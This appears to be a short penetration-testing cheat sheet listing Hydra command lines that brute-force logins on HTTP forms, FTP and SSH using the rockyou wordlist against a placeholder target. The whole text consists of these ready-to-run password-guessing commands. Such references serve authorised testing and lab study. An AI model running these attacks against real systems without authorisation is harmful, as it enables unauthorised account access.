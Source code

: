 ## Hydra

#### HTTP

```bash
hydra -l username -P /usr/share/wordlists/rockyou.txt $ip http-post-form "/admin/index.php:user=admin&pass=^PASS^:Username or password invalid"
```

#### FTP

```bash
hydra -l username -P /usr/share/wordlists/rockyou.txt ftp://$ip
```

#### SSH

```bash
hydra -l username -P /usr/share/wordlists/rockyou.txt ssh://$ip
```
